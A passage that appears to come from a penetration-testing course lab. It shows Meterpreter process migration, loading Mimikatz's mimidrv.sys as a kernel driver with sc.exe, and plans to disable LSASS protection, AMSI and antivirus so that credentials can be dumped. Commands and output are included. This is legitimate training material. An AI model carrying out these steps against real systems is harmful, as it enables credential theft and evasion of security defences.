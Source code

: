 Since we have a SYSTEM shell, we could also create a local administrative account and use that to RDP into web01. From there, we could use the GUI to disable AV runtime protections, which would block further alerts.

To proceed, we'll download an updated version of the Mimikatz mimidrv.sys file that works on Windows 2019 and upload it to web01. To ensure stability of our SYSTEM Meterpreter, we'll migrate into the SYSTEM integrity _spoolsv_ process and open a command prompt.

```
meterpreter > migrate 2092
[*] Migrating from 4696 to 2092...
[*] Migration completed successfully.

meterpreter > shell
Process 5036 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>
```

> Listing 32 - Migrating into spoolsv

Now we can manually load the driver with the sc.exe _Service Control_ application.[1](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5592-1) First, we'll create a service named "mimidrv", specify the file path of the driver through binPath=, set its type to "kernel", and the starting setting to "demand" with start=.

```
C:\Windows\system32> sc create mimidrv binPath= C:\inetpub\wwwroot\upload\mimidrv.sys type= kernel start= demand
sc create mimidrv binPath= C:\inetpub\wwwroot\upload\mimidrv.sys type= kernel start= demand
[SC] CreateService SUCCESS

C:\Windows\system32> sc start mimidrv
sc start mimidrv

SERVICE_NAME: mimidrv 
        TYPE               : 1  KERNEL_DRIVER  
        STATE              : 4  RUNNING 
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 0
        FLAGS              : 
```

> Listing 33 - Load mimidrv.sys into the kernel

With the driver running, we can instruct it to turn off the LSASS PPL protection.

We'll disable AMSI and download and run Invoke-Mimikatz from memory as shown in Listing 34.
